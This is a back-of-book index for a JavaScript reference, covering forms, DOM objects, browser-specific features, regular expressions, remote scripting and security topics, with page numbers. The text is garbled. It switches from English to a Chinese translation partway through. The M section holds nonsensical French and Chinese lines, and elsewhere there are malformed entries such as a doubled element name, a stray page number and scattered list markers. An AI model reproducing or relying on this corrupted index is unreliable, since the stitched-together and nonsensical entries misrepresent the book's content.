external object, proprietary browser objects, 817–818

- external scripts
  - advantages/disadvantages, 16
  - functions and, 129
  - same-origin policy and, 681–682

extractCookie( ) method, 527

## F

favlets, Web browsers, 19

feature parameter, Window object, 354–358

fieldset object, HTMLFieldSetElement, 818

fieldset, forms, 443

`<fieldset>`, 443, 818

FIFO (first-in first out), 165

file object, HTMLInputElement, 818–819

file upload fields, forms, 436

file upload object, HTMLInputElement, 818–819

FileSystemObject
- ActiveX, 656–657
- HTA and, 659
- overview of, 819

filters, CSS, 654–655

fireEvent( ) method, 329

first-in first out (FIFO), 165

flags, regular expressions, 749

floating-point numbers, 49, 52

flow control
- labels and, 106–108
- statements, 36–37, 97
- syntax, 744

focus events, 426

focus( ) method, Document object, 362, 456

font object, HTMLFontElement, 819–820

`<font>`, 819

for loops
- overview of, 37–38
- semicolon placement and, 105
- syntax, 104–105, 747

for...in statements, 109–110

for/in loops
- iterating elements of associative arrays, 150
- iterating object properties, 138–141
- overview of, 37
- syntax of, 747

form fields, 421–444
- accessing, 419–421
- buttons, 423–426
- checkboxes, 431–435
- disabling, 457–458
- field selection, 456
- fieldset, 443
- file upload fields, 436
- first field focus, 456
- hidden fields, 435
- input element properties, 421–423
- label element, 442–443
- legend, 443–444
- radio buttons, 431–435
- select menus, 437–442
- text fields, 426–431

form object, `HTMLFormElement`, 820
- elements collection, 393–394
- overview of, 820
- properties, 417–419

form validation, 444–455
- abstracting, 446–449
- best practices, 454–455
- defined, 417
- drop-in, 449–451
- keyboard masking, 453–454
- need for, 417
- onchange event handlers, 452–453
- overview of, 578–579, 444–446
- via hidden fields, 452

`<form>`
- accessing document elements by position, 230
- correspondence to Form/form object, 417–418, 820
- Document object and, 393

forms, 417–461
- accessing, 419–421
- disabling fields, 457–458
- dynamic, 458–461
- first field focus of, 456
- Form object properties, 417–419
- input. see `<input>`
- labels and field selection, 456
- need for form validation, 417
- status messages, 456, 457

forms[ ] collection, 392–393, 419

frame busting, 378

frame object, browser objects, 822

frame object, `HTMLFrameElement`, 821

`<frame>`, 375–376, 821
- communication with, 584
- correspondence to iframe object, 828–829
- same-origin policy and, 681
- two-way remote communication with, 595–597

frames, 371–381
- building, 378–379
- busting, 378
- inline, 375–376
- loading, 377
- overview of, 371–375
- relationships, 374
- state management with, 379–381

frameSet object, HTMLFrameSetElement, 822

`<frameset>`, 822

full-screen windows, Window object extensions, 383–384

function keyword, 39, 111

function literals, 122–124, 738

Function object, built-in objects, 121–122, 823–824

functions, 111–132
- anonymous, 124
- best practices for use of, 128–131
- defining, 111
- function literals, 122–124
- global and local variables and, 117–119
- globally available, 179
- invoking, 63
- local, 120–121
- mask outs and, 119–120
- as objects, 121–122
- overview of, 39
- parameter passing, 112–113
- parameter passing, advanced, 125–127
- passing composite types by reference, 115–116
- passing objects to, 143–144
- passing primitive types by value, 114–115
- recursive, 127–128
- reference types and, 116–117
- return statements, 114
- static variables, 124–125
- syntax, 745
- variable scope and, 70–72

## G

- garbage collection, 135–136
- get methods, Date object, 176–177
- getComputedStyle( ) method, 494
- getElementById( ) method
  - accessing elements, 255–256
  - accessing forms, 419
  - DOM elements and, 404
- getElementsByName( ) method, 262
- getElementsByTagName( ) method, 263–264, 284
- getPropertyValue( ) method, 495
- global flag, RegExp, 206–208
- Global object
  - built-in objects, 178–180, 824–825
  - properties, 737
, 737
- global variables, 70, 117–119
- Globally Unique Identifier (GUID), 574
- GMT (Greenwich Mean Time), 174
- graphical user interfaces (GUIs), 510
- greater than (>), 87, 145
- greater than or equal to (>=), 87, 145
- greedy matching, regular expressions, 216–217
- Greenwich Mean Time (GMT), 174
- grouping characters, regular expressions, 198
- GUID (Globally Unique Identifier), 574
- GUIs (graphical user interfaces), 510

## H

- h1,…h6 object, 827
- handleEvent( ) method, 321
- hasAttributes( ) method, 271
- hasChildNodes( ) method, 258–261
- head object, HTMLHeadElement, 825
- `<head>`
  - correspondence to head object, 825
  - function definitions and variable declarations in, 25
  - preloading images, 469
- Hello World example, 3–6
- hexadecimal literals, 50
- hidden fields, forms, 435, 452
- Hidden object, HTMLInputElement, 826
- hide( ) method, pop-up windows, 671
- HierMenus, 513
- History object, browser objects, 366–367, 826–827
- historygo( ) method, 367
- `<hn>`, 827
- home page, preference settings, 552–554
- hover property, CSS, 475
- hr object, HTMLHRElement, 827
- `<hr>`, 827
- href property, 392
- HTA (HTML applications), 657–660, 683
- HTC (HTML Component), 664–665
- HTML. See XHTML/HTML
- HTML applications (HTA), 657–660, 683
- HTML Component (HTC), 664–665
- html object, HTMLHtmlElement, 827–828
- `<html>`, 827–828
- HTMLAnchorElement, 769–771
- HTMLAppletElement, 773–774
- HTMLAreaElement, 774
- HTMLBaseElement, 777
- HTMLBaseFontElement, 777–778
- HTMLBodyElement, 780–781
- HTMLBRElement, 782
- HTMLButtonElement, 425–426, 782–783
- HTMLCellElement, 892–893
- HTMLDirectoryElement, 795
- HTMLDivElement, 795–796
- HTMLDListElement, 796

HTMLElement
- (X)HTML elements associated with, 402
  - abbr, 771
  - acronym, 771
  - address, 772–773
  - applet, 773–774
  - b, 777
  - bdo, 778
  - big, 779
  - center, 784–785
  - cite, 786
  - code, 787
  - dd, 793–794
  - Document, 796–801
  - DOM methods for, 401
  - DOM properties for, 400
  - em, 802
  - kbd, 833
  - noFrames, 846
  - noScript, 846
  - small, 866
  - span, 866–867
  - strike, 867
  - strong, 870
  - sub, 886–887
  - sup, 889
  - tagName property, 256
  - tt, 900
  - u, 901
  - var, 902–903

HTMLFieldSetElement, 443, 818

+ HTMLFontElement, 819–820

HTMLFormElement, 393–394, 417, 820

HTMLFrameElement, 821

HTMLFrameSetElement, 822

HTMLHeadElement, 825

HTMLHRElement, 827

HTMLHtmlElement, 827–828

HTMLIFrameElement, 828–829

HTMLImageElement, 394, 463, 829–831

HTMLInputElement
- Button, 783–784
- Checkbox, 785–786
- file, file upload, 436, 818–819
- Hidden, 826
- input, 832


 + Password, 854
- 属性和方法，421–423
- Radio，856–857
- Reset，859–860
- submit，888
- Text，893–894

+ HTMLIsIndexElement，832
- HTMLLabelElement，442
- HTMLLegendElement，444，836–837
- HTMLLIElement，837
- HTMLLinkElement，837–838
- HTMLMapElement，839
- HTMLMenuElement，842
- HTMLMetaElement，842
- HTMLHTMLModElement，794，832
- HTMLObjectElement，849–850
- HTMLOListElement，850–851
- HTMLOptGroupElement，442，851
- HTMLOptionElement，439，851–852
- HTMLParagraphElement，852
- HTMLParamElement，853–854
- HTMLPreElement，856
- HTMLQuoteElement，779–780，856
- HTMLScriptElement，863–864
- HTMLSelectElement，437–439，864–865
- HTMLTableCaptionElement，784
- HTMLTableColElement，787–788
- HTMLTableElement，408–414，889–891
- HTMLTableRowElement，899–900
- HTMLTableSection，891
- HTMLTextAreaElement，428–431，894–895
- HTMLTitleElement，899

## HTTP

+ 作为无状态协议，522
- XMLHTTP，597–600

超文本标记语言。参见 HTML

## I

+ i 对象，HTMLElement，828
+ I/O（输入/输出），40–42
+ `<i>`，828
+ id 属性，文档访问，231，262
+ 标识符
  - 大小写，68
  - 约定的一致性，69
  - 定义，24
  - 正式限制，67
  - 变量命名，67–68
  - 保留字，917
  - 短名称，68–69
  - 变量，28–29，47
+ IE（Internet Explorer）
  - 集合，232，645–646
  - 条件编译，648–650
  - 上下文激活，521
  - 调试器，707–709
  - 文档属性，IE 3，240–241
  - 文档属性，IE 4，241–246
  - 文档属性，IE 5、5.5 和 6，246–247
  - DOM，620–624
  - DOM 文档树，261
  - Enumerator 对象，647
  - 错误处理程序，710–712
  - 事件方法，808–809
  - 事件模型。参见 event model, IE 4+
  - 事件，814–817
  - 对其他浏览器隐藏专有特性，645
  - innerHTML 属性支持，291
  - innerText 属性支持，292–293
  - 对应的 JScript 版本，641，731
  - 语言检测，548
  - Microsoft 客户端能力检测，549–551
  - 对应的 Netscape 版本，731
  - 可用的非标准事件处理程序，303–309
  - outerHTML 属性支持，292–293
  - outerText 属性支持，292–293
  - 插件，569–570
  - 定位区域，479–480
  - 首选项设置，553–554
  - 各版本专有特性，651–653
  - 运行时错误，700
  - Screen 对象检测，547
  - 安全区域，686–690
  - 用于安全性的签名脚本，683–684
  - 模拟浏览器活动，551
  - 状态扩展，531–532
  - 语法错误，700
  - 格式良好的 XML，604
  - XML，620–624，632
  - XML 数据岛，618–619，630–632
  - XSL 客户端支持，611

### IE（Internet Explorer），扩展，641–672

+ ActiveX 对象，655–657
- CSS 筛选器，654–655
- 数据绑定模型，660–662
- DHTML 行为，664–670
- 动态属性，662–664
- HTML 应用程序，657–660
- JScript 功能，671
- JScript 专有特性，645–650
- JScript 版本，643–645
- JScript 与 ECMAScript 的关系，642
- 弹出窗口，670–671
- 各浏览器版本的专有浏览器特性，650–654
- Window 对象，381–383

### if 语句

+ 布尔值，57–58
- else 语句，36，97
- 形式，746
- switch/case 语句，98
- 语法，97

iframe 对象，HTMLIFrameElement，828

`<iframe>`，375–376

`<ilayer>`，834

### Image 对象，HTMLImageElement

+ elements[ ] 集合，394
- 方法，831
- 与服务器的单向通信，583
- 概述，829
- 属性，464–467，830–831
- 远程 JavaScript 单向通信，583–584
- 远程 JavaScript 双向通信，586–588
- 翻转按钮不支持，468–469

images[ ] 集合，394–396，463，542

``

+ 对应于 Image 对象，394，463，829
- 不支持事件绑定，468
- 表单图像标签，424–425
- 与服务器的单向通信，583
- 翻转按钮，467

隐式声明，变量，48，69–70

导入/导出，109

递增运算符（++），85–86

index 属性，exec( ) 方法，205

索引，数组元素，62

+ indexOf( ) 方法，String 对象，185
- 无限循环，浏览器安全，690–691
- Infinity/-Infinity 值，51–52
- 继承
  - OOP 中，157
  - 通过原型链，156
- initial，对象模型，223–224
- 内联框架（`<iframe>`），375–376
- 内联样式，276–282，494
- innerbrowsing，600–601
- innerHTML 属性，291–292，483
- innerText 属性，292–293
- input 元素，表单，421–423
- input 对象，HTMLInputElement，832
- input 属性，exec( ) 方法，205
- `<input type="button"/>`，783
- `<input type="checkbox"`，785
- `<input type="file">`，436
- `<input type="hidden"...>`，826
- `<input type="password"...>`，854
- `<input type="radio">`，856
- `<input type="reset">`，859
- `<input type="submit">`，888
- `<input type="text">`，893
- 输入/输出（I/O），40–42
- `<input>`，421–423
  - 按钮，423–424
  - 复选框，431–435
  - 对应的 document 对象，832
  - 文件上传字段，436
  - 通用按钮，425–426
  - 隐藏字段，435
  - 图像按钮，424–425
  - 属性和方法，421–423
  - 单选按钮，431–435
  - 文本字段，426–428
- ins 对象，HTMLModElement，832
- `<ins>`，832
- insertBefore( ) 方法，DOM 节点，265
- 实例属性
  - 对象，136–137，735
  - RegExp 对象，208–209
  - 语法，735
- 整数，数值数据类型，49
- Internet Explorer。参见 IE（Internet Explorer）
- Internet，安全策略，685–686

interval 方法，Window 对象，369–370

调用函数，63

isIndex 对象，HTMLIsIndexElement，832

`<isindex>`，832

迭代。参见 循环

## J

+ Java
  - 浏览器检测，543
  - 与 JavaScript 的关系，19–20
- Java 小程序
  - 在 JavaScript 中访问，559–562
  - 用 Java 访问 JavaScript，563–564
  - 检测，559
  - 在 JavaScript 中包含，558–559
  - 问题，563
  - 概述，558
- java 对象，浏览器对象。参见 Packages 对象，专有浏览器对象
- javaEnabled( ) 方法，543，559
- JavaScript
  - 添加到 XHTML 文档，6
  - 数组，31–32
  - 块，28
  - 可取消性，25–26
  - 注释，43–44
  - 复合类型，31
  - 数据类型，29
  - 动态类型，29–31
  - 事件处理程序，13–15
  - 表达式，33
  - 流控制语句，36–37
  - 函数，39
  - Hello World 示例，3–6
  - 历史，19–21
  - 输入/输出，40–42
  - 局限性，22
  - 链接脚本，15–16
  - 常见用途列表，21–22
  - 循环，37–39
  - `<noscript>` 元素，11–13
  - 对象，32–33
  - 运算符，33–35
  - 编程语言，23–25
  - 伪 URL，17–19
  - 正则表达式，42–43
  - 脚本执行顺序，25
  - `<script>` 元素，7–11
  - 语句，27–28
  - 变量，28–29
  - 对应于 Netscape 版本的版本，672–673
- JavaScript 浏览器检测
  - 对象，542–543
  - 支持，540–541
  - 版本，541–542

JavaScript 控制台，698–699

join( ) 方法，Array 对象，168

JScript

+ 访问 COM 对象，655
- 功能，671
- 作为 JavaScript 的克隆，20
- FileSystemObject 方法，656–657
- 专有特性，645–650
- 与 ECMAScript 的关系，642，731
- 与 IE 版本的关系，641，731
- 与 JavaScript 的关系，641
- 版本，643–645

JScript 调试器，708

JSObject 类，563

## K

+ kbd 对象，HTMLElement，833
- 键盘事件，DOM2，335–336
- 键盘屏蔽，453–454
- 关键字
  - 定义，24
  - 标识符不匹配，67
- Konqueror，247

## L

+ label 元素，表单，442–443
- label 对象，HTMLLabelElement，834
- `<label>`
  - (X)HTML，273
  - 对应于 label 对象，834
  - 表单，442–443，456
- labels
  - break 和 continue 语句，106–108
  - 表单，456
  - 语句，747
  - 语法，747
- language 属性，`<script>`，7–8，541，721–722
- 语言，浏览器检测，548–549
- 核心语言
  - 作为对象模型的组成部分，221
  - 核心原则，729–730
  - 版本，730–731
- 后进先出（LIFO），165
- lastIndex 属性，exec( ) 方法，205
- lastIndexOf( ) 方法，String 对象，185
- lastModified 属性，Document 对象，388
- Layer 对象，专有文档对象，479，834–836
- `<layer>`
  - 对应于 Layer 对象，834
  - Netscape 4 和，478–479
  - 同源策略，681
- layers[ ] 集合，397–398
- 左移运算符（<<），83–84
- legend 对象，HTMLLegendElement，836–837
- legend，表单，443–444
- `<legend>`，444，836
- length 属性
  - Array 对象，162–165
  - exec( ) 方法，205
  - forms 集合，419
  - 函数，125–126，745
  - String 对象，54，184
- 小于（<），87，145
- 小于或等于（<=），87，145
- Level 0 集合，DOM，263
- 级别，DOM，249–250


字典序，88，743

li 对象，HTMLLIElement，837

<li>，837

库

DHTML，480–489，533

菜单，513

LIFO（后进先出），165

link，HTMLLinkElement，837–838

<link>，285，837

链接的脚本，15–16

链接，769–771

links[] 集合，391–392

列表，62。*另见* 数组

字面量

定义，24

语法，737–738

变量声明与，48

LiveConnect，559

LiveScript，558

局部函数，120–121

本地 Intranet，安全策略，686

本地计算机，安全策略，686

局部变量，70，117–119

Location 对象，浏览器对象，366，838–839

location 属性，Document 对象，388–389

逻辑运算符

条件运算符 (?:)，89–90

列表，89，740–741

概述，34，89

逻辑表达式的短路求值，99

语法，740

先行否定 (?!不可缺少)，216

循环，37–39

控制，38–39，105–106

使用 Enumerator 对象迭代，648

循环语句，97

语法，746–747

循环类型，37–38

## M

- m（多行）标志，215
- Macromedia Dreamweaver，708
- Macromedia Flash，571–573
- map 对象，HTMLMapElement，839
- <map>，839
- 标记元素。*见* XHTML/HTML
- 标记，浏览器检测，539
- marquee 对象，839–840
- 遮罩，119–120
- 屏蔽脚本，9–11
- 掩码，键盘掩码，453–454
- match() 方法，String 对象，185，213–214
- Math 对象，180–183
  - 常量，181
  - 方法，181，840–841
  - 概述，180–182
  - 属性，840
  - 随机数，182
  - 特殊值，52
  - with 语句与，182–183
- MathML，616–617
- 最大匹配，正则表达式，216–217
- mayscript 属性，<applet> 标签，563–564
- 媒体类型。*见* MIME（多用途因 MIME（多用途互联网邮件扩展）类型
- mediatype/subtype，565
- 内存占用，浏览器安全，691
- menu 对象，HTMLMenuElement，842
- <menu>，842
- 菜单，DHTML
  - 类应用程序菜单，510–513
  - 上下文菜单，520–521
  - 概述，510
  - 遥控菜单，513–515
  - 滑入菜单，515–518
  - 静态菜单，518–520
- 菜单，选择菜单，437–442
- meta 对象，HTMLMetaElement，842
- <meta>，532，842
- 方法
  - 所有对象共有的，145–146
  - 全局可用的，179
  - 对象，59，138
  - 同源策略与，682

## Microsoft

- Authenticode，683
- 客户端能力检测，549–551
- COM（组件对象模型），655
- Internet Explorer。*见* IE（Internet Explorer）
- JScript。*见* JScript
- 脚本调试器，707–709

- MIME（多用途互联网邮件扩展）类型，565–568
- mimeType 对象，专有浏览器对象，566，568，843
- mimeTypes[] 属性，Navigator 对象，566–567
- 减号 (-) 符号，81
- 模态窗口，381–383
- 非模态窗口，381–383
- 取模 (%) 运算符，79
- 鼠标事件，333–335
- mouseover 事件，467
- moveBy() 方法，Window 对象，362
- moveTo() 方法，Window 对象，362–363

## Mozilla

- 背景，673–674
- 上下文激活与，521
- 下的 CSS 内联测试器，282
- 调试器，707
- 文档属性，240
- DOM 与，624–630
- DOM 文档树与，261–262
- 事件模型兼容性，299
- 下的 MathML，616–617
- 平台，676–677
- 专有特性，675–676
- 运行时错误，700
- 安全策略，685–686
- 用于安全的签名脚本，683–684
- 标准支持，674–675
- 下的 SVG，616–617
- 语法错误，700
- XML 与，629

- 多维数组，172
- 多行标志 (m)，215
- 多行匹配，正则表达式，215
- 多媒体，嵌入式对象与，557
- 多行注释，43
- 乘法 (*) 运算符，79
- 多用途互联网邮件扩展 (MIME) 类型，565–568
- 多线程应用程序，588
- 突变事件，DOM2，337–338

Le cour CIRA3，ne t'était pas donnée

请注意图片的某些属性。它们将在图表的重新捕获中总结，遵循网格定律并介于可维护性之间

Reproscriosefapis，modoportioncitt。pre images et laillusiona

## N

- name 属性，文档，231，262
- 名称
  - 通过名称访问文档元素，231
  - 函数名，129
  - 变量名，47，67–69
- namespace 对象，843
- NaN（非数字），51–52
- 导航。*见* 网站导航
- Navigator 对象
  - 浏览器检测，536–539
  - 浏览器支持，134
  - javaEnabled() 方法，559
  - 方法，845
  - mimeTypes[] 属性，566–567
  - 概述，843
  - plugins[] 集合，543，568
  - 属性，844–845
- Netscape
  - Netscape 4 中的缺陷，170
  - 调试器，707
  - 文档属性，Netscape 3，236–237
  - 文档属性，Netscape 4，236–237
  - 文档属性，Netscape 6 和 7，240
  - DOM 文档树与，261
  - 错误处理程序，710–712
  - 事件方法，809–810
  - 事件模型。*见* 事件模型，Netscape 4
  - 事件模型兼容性，299
  - 事件，813–814
  - 全屏窗口，383
  - 对应的 IE 版本，731
  - innerHTML 属性支持，291
  - 对应的 JavaScript 版本，672–673，730
  - 语言检测，548
  - 非标准事件处理程序，303–309
  - 插件检测，543
  - Netscape 4 中的定位区域，478–479
  - 首选项设置，553–554
  - Screen 对象检测，547
  - 用于安全的签名脚本，683–684
  - 模拟浏览器活动，551
  - XML 与，629
- netscape 对象，852–853
- new 关键字。*另见* 构造函数
  - 构建对象，33，61–62，135
  - 使用 new 创建 Array 对象，93
  - 定义函数，121–122

- noBR 对象，专有文档对象，845–846
- <nobr>，845
- NodeIterator 对象，288
- 节点，DOM
  - 复制，267–268
  - 创建，264–265
  - 删除/替换，268–269
  - 插入，265–267
  - 修改，269–271
  - 属性，256
  - 与 (X)HTML 文档的关系，253–254
  - 文本节点操作方法，270
- noFrames 对象，HTMLElement，846
- <noframes>，846
- 非捕获型括号 (?:)，216
- noScript 对象，HTMLElement，846–847
- <noscript>
  - 与 noScript 对象对应，846
  - 旧版浏览器与，723
  - 伪 URL 与，19
  - 下拉菜单，507
  - 使用其关闭脚本，11–13
- NOT (~)，83
- 非数字 (NaN)，51–52
- 不等于 (!=)，87
- 不等于且类型不同 (!==)，87
- 表示法，运算符简写，34–35
- null 数据类型
  - 转换，734
  - 定义，29
  - 概述，59
  - 与 undefined 数据类型对比，59–60
- Number 对象
  - 方法，847–848
  - 数值数据类型，52
  - 属性，183，847
- 数值常量，733
- 数值数据类型
  - 转换，66，734
  - 定义，29
  - 十六进制字面量，50
  - 八进制字面量，50
  - 概述，49–50
  - 表示问题，52–53
  - 特殊值，51–52

## O

- 混淆器，代码保护，725–726
- 对象字面量，148–149，738
- 对象模型，753–760
  - 组件，233–236
  - 跨浏览器支持，247
  - Document 对象。*见* Document 对象
  - 事件处理程序，232–233
  - JavaScript 中的历史，222
  - IE 3，756–757
  - IE 4+，758–759
  - IE 5.5+，758–759
  - IE 文档属性，240–247
  - 初始的，223–224
  - Mozilla 文档属性，240
  - Netscape 3，755–756
  - Netscape 5，757–758
  - Netscape 6，759–760
  - Netscape 文档属性，236–240
  - 概述，221–223
  - 传统的（Netscape 2 和 IE 3），755
  - 中的对象类型，753
- 对象运算符，92–94
- 对象属性，136–142
  - 使用数组语法访问，137
  - 枚举，138–141
  - 常见列表，145–146
  - 方法，138
  - 概述，136–137
  - with 语句与，141–142
- 对象签名，683。*另见* 签名脚本
- Object，内置对象，848–849
- object，HTMLObjectElement，849–850
- `<object>`
  - ActiveX，574，578
  - 与 `<applet>` 比较，562
  - 与 object，HTMLObjectElement 对应，849
  - 跨浏览器嵌入对象的包含，575
  - 嵌入式对象，564–565
  - 与 ActiveX 控件交互，576
  - Java 小程序与，558–559
- 面向对象编程。*见* OOP（面向对象编程）
- 对象相关集合，396–397
- 对象相关语句，108–109
- 对象，133–158


+ - 作为关联数组，149–150
- 浏览器对象。参见**浏览器对象**
- 内置对象。参见**内置对象**
- 类属性，155–156
- 比较，144–145
- 复合数据类型与对象，735
- 构造函数，152–153
- 创建，61–62，135，735
- 文档对象。参见**文档对象**
- 动态类型，155
- ECMAScript内置对象，736
- 嵌入对象。参见**嵌入对象**
- 函数作为对象，121–122
- 垃圾回收，135–136
- 通过原型链继承，156
- 实例属性，735
- 对象字面量，148–149
- 面向对象编程，150–151
- 重写属性，156
- 概述，32–33，60–61
- 传递给函数，143–144
- 基于原型，151–152
- 对象的原型，153–154
- 作为引用类型，142–143
- 语法，735
- this语句与对象，736
- 对象的类型，133–134
- 用户定义对象，147–148

八进制字面量，50

ol对象，HTMLOListElement，850–851

`<ol>`，850

onblur事件处理程序，426

onchange事件处理程序，452–453，507

oncontextmenu事件处理程序，521

onerror处理程序，710–712

一次性弹出窗口，cookies，528

onfocus事件处理程序，426

onkeypress事件，430

+ - OOP（面向对象编程）
  - 基于类与基于原型，151
  - 编程语言，33
  - 概述，150–151
  - 原则，157

开放Web应用安全项目（OWASP），694

+ - open()方法
  - Document对象，389–391
  - feature参数，354–356
  - 弹出窗口，670
  - Window对象，351–352

opener属性，Window对象，361

Opera浏览器

+ - 跨浏览器支持，247
- DOM文档树与Opera，261
- 语言检测，548
- 插件检测，543
- 模拟浏览器活动，551
- 对innerHTML属性的支持，291

运算符优先级，35–36，94–96，743–744

运算符，33–36

+ - 算术运算符。*参见* 算术运算符
- 赋值运算符，78–79
- 位运算符。*参见* 位运算符
- 逗号运算符，90–91
- 比较运算符。*参见* 比较运算符
- 定义，24
- 自增/自减运算符，85–86
- JavaScript支持，78
- 逻辑运算符。*参见* 逻辑运算符
- 对象运算符，92–94
- 优先级，35–36，94–96，743–744
- 关系运算符。*参见* 关系运算符
- 字符串运算符，35
- 语法，739
- typeof运算符，92
- void运算符，91–92

optGroup对象，HTMLOptGroupElement，851

`<optgroup>`，441–442，851

Option元素，439

选项组，442

option对象，HTMLOptionElement，851–852

`<option>`，508，851

OR（|），位运算符，82

outerHTML属性，292–293

outertext属性，292–293

输出净化，694

重写属性，156

OWASP（开放Web应用安全项目），694

## P

+ - p对象，HTMLParagraphElement，852
- `<p>`，852
- P3P（隐私偏好平台），588–589
- Packages对象，专有浏览器对象，852–853
- page对象，专有文档对象，853
- param对象，HTMLParamElement，853–854
- `<param>`，559，574，853–854
- 参数传递，112–113，125–127
- 参数，函数的，63
- 括号"()"运算符，94，204
- parse()方法，Date对象，177–178
- parseInt()方法，类型转换，64
- 解析器，XML，608
- 传递函数参数，63
- Password对象，HTMLInputElement，854
- 模式，正则表达式，42，194
- 持久性cookies，522
- 管道符（|），202
- plainText对象，已弃用，854
- `<plaintext>`，854
- 隐私偏好平台（P3P），588–589
- 平台无关性，558
- Plugin对象，专有浏览器对象，568，854–855
- 插件
    - 浏览器检测，543–544
    - 检测特定插件，568–570
    - 为插件嵌入内容，564–565
    - 与插件交互，571–574
    - MIME类型，565–568
    - 概述，564
    - 刷新plugins[]集合，570–571
- plugins[]集合
    - 浏览器检测与plugins[]，543
    - Document对象，396
    - Navigator对象，568
    - 刷新，570–571
- 策略，安全
    - IE安全区域，686–690
    - Mozilla，685–686
    - 概述，679
    - 同源策略。参见同源策略

+ 多态性，OOP中的，157

+ pop()方法，Array对象，165–166，172–173

+ 弹出窗口拦截器，352

+ popup对象，专有浏览器对象，855

+ 弹出窗口
    - IE扩展，381–383，670–671
    - 一次性弹出窗口，528

+ 位置指示符，正则表达式，194–195

+ 定位区域
    - CSS，477–478
    - DOM，479–480
    - IE，479–480
    - Netscape 4，478–479
    - 过渡与定位区域，496–499

+ POST方法，XMLHTTP，600

+ 后自增运算符，86

+ pre对象，HTMLPreElement，856

+ 前缀/后缀，算术运算符，739

+ `<pre>`，854，856

+ 前自增运算符，86

+ preventDefault()方法，DOM2，340

+ 基本数据类型。参见数据类型，基本

+ print()方法，Window对象，551

+ 编程
    - 使用函数的最佳实践，128–131
    - 欺骗性编程技巧，692

+ 编程语言
    - 特征，24–25
    - 基于对象，33
    - JavaScript与编程语言的关系，19–20
    - 术语，24
    - 弱类型、强类型和无类型，48–49

+ 编程实践，JavaScript，695–726

+ 代码保护，724–726
    - 编码速度，724
    - 编码风格，723–724
    - 调试。参见调试
    - 防御性编程。参见防御性编程
    - 启用错误消息，698–699
    - 常见错误及症状列表，701–702
    - 运行时错误，696–698，700
    - 语义错误，697–698
    - 语法错误，695–696，698，700

+ prompt()方法，Window对象，40，350–351

+ 属性
    - 类属性，155–156
    - 所有对象共有属性，145–146
    - Document对象属性，385–388
    - DOM属性，374–375，398–399
    - 实例属性，136–137，208–209
    - Document对象的最小公分母属性，225
    - 将CSS映射到DOM属性，277–279
    - 对象属性，59，136–137
    - 重写对象属性，156
    - 同源策略与属性，682
    - 静态属性，209–211

+ 原型链，156

+ prototype属性，153–155

+ 基于原型的面向对象语言，151，558

+ 基于原型的对象，151–152

+ 原型，扩展Array对象，172–173

+ 伪URL，17–19

+ 下拉菜单，506–510
    - 表单，437–442
    - 改进，508–510
    - 概述，506–507
    - `<select>`标签与下拉菜单，437–439，506

+ push()方法，Array对象，165–166，172–173

## Q

q对象，HTMLQuoteElement，856

`<q>`，856

队列，165–166

引号

- 转义码与引号，55–56
- 字符串数据类型与引号，55–56

## R

单选按钮，431–435

Radio对象，HTMLInputElement，856–857

随机数，182

Range对象，DOM Level 2，289–290

范围选择，DOM，289–290

简易信息聚合（RSS），632–637

递归函数，127–128

重定向

- cookies，528
- 远程JavaScript，585

引用类型。*另见* 数据类型，复合

- 比较，144–145
- 函数与引用类型，116–117
- 对象与引用类型，142–143
- 作为参数传递给函数，143–144

referrer属性，Document对象，388

RegExp对象。*另见* 正则表达式

- compile()方法，204–205
- 构造函数，42
- exec()方法，205–208
- 实例属性，208–209
- 方法，859
- 概述，857–858
- 属性，858
- 静态属性，209–211，751
- 子表达式，203–204
- test()方法，203

正则表达式。*另见* RegExp对象

- 高级正则表达式，214–217，751
- 替代方案，202–203
- 字符类，198–202，749–750
- 概念概述，192–193
- 转义码，195–196，750
- 示例，749
- 标志，749
- 表单验证与正则表达式，447–449
- 分组字符，198
- JavaScript中的正则表达式，193–194
- 局限性，217–218
- 字面量，738–739
- 概述，42–43
- 模式，194
- 位置指示符，194–195
- 重复量词，196–198，749
- 字符串方法，211–214
- 语法，748–751
- 用途，191–192

关系运算符

+ - 比较对象，145
- 概述，34
- 语法，742–743

远程控制菜单，DHTML，513–515

远程JavaScript，581–601

+ - 回调，594–595
- cookies与远程JavaScript，588–589
- 跨站脚本攻击，592
- 动态内容，589–592
- `<iframes>`，595–597
- 用于单向通信的图像，583–584
- 用于双向通信的图像，586–588
- 内部浏览与远程JavaScript，600–601
- 单向通信，582–583
- 概述，581–582
- 重定向，585
- 服务器端计算，592–594
- 线程，588
- 双向通信，585–586
- XMLHttp，597–600

远程过程调用。*参见* RPCs（远程过程调用）

远程脚本，671

远程XML，632–637

removeChild()方法，268

removeEventListener()方法，332

重复量词，正则表达式，196–198，749

replace()方法，String对象，212–213

replaceChild()方法，268

保留字

+ - 定义，24
- 标识符不匹配保留字，67
- 列表，916，917
- 未来可能的保留字，917
- 类型，916

Reset对象，HTMLInputElement，859–860

reset()方法，Form对象，418

resizeBy()方法，Window对象，363

resizeTo()方法，Window对象，363

受限站点，安全策略，686

return语句，28

+ - 显式return，130
- 函数与return，114，745
- 使用return传递值，116
- 使用return终止函数，76–77

返回值，事件模型，312–314

reverse()方法，Array对象，168


## S

- Safari, 247
- 同源检查, 680–681
- 同源策略, 680–683
  - 内嵌文档与, 681
  - 例外情况, 682
  - 外部脚本与, 681–682
  - 概述, 683
  - 存在问题, 682–683
  - 同源检查, 680–681
- samp 对象, 文档对象, 862
- \<samp\>, 862
- saveHistory 行为, DHTML, 532
- 架构, 有效 XML, 607–608
- 作用域, 事件模型, 311–312
- 作用域, 变量, 70–73
- scr 属性, 15–16
- Screen 对象, 544–548
- screen 对象, 浏览器对象, 862–863
- script 对象, HTMLScriptElement, 862–863
- \<script\>, 7–11
  - 代码隐藏与, 720–723
  - 与 script 对象的对应关系, 863
  - 动态内容与, 589
  - 在 HTML 或 XHTML 中包含 JavaScript, 7–8
  - JavaScript 版本检测, 541–542
  - 置于 \<head\> 标签中, 8–9
  - 脚本隐藏, 9–11
  - 与浏览器配合使用, 4
- 脚本语言, 23. *另见* 编程语言
- 脚本
  - 跨站脚本, 592
  - 为脚本定义所有函数, 128
  - 错误分类, 695
  - 执行顺序, 25
  - 隐藏, 9–11
  - Internet Explorer XML 数据岛, 630–632
  - JScript 脚本控件, 671
  - JScript 脚本主机, 671
  - 操作滤镜和过渡效果, 654–655
  - 服务器端, 582
  - 为安全而签名, 683–684
- scrollBy( ) 方法, Window 对象, 364
- 滚动窗口, Window 对象, 364–366
- scrollTo( ) 方法, Window 对象, 364
- search( ) 方法, String 对象, 185, 212
- 安全, 679–694
  - ActiveXObject, 655–656
  - 浏览器问题, 690–692
  - Cookie, 527
  - 跨站脚本, 692–694
  - JavaScript 模型, 679–680
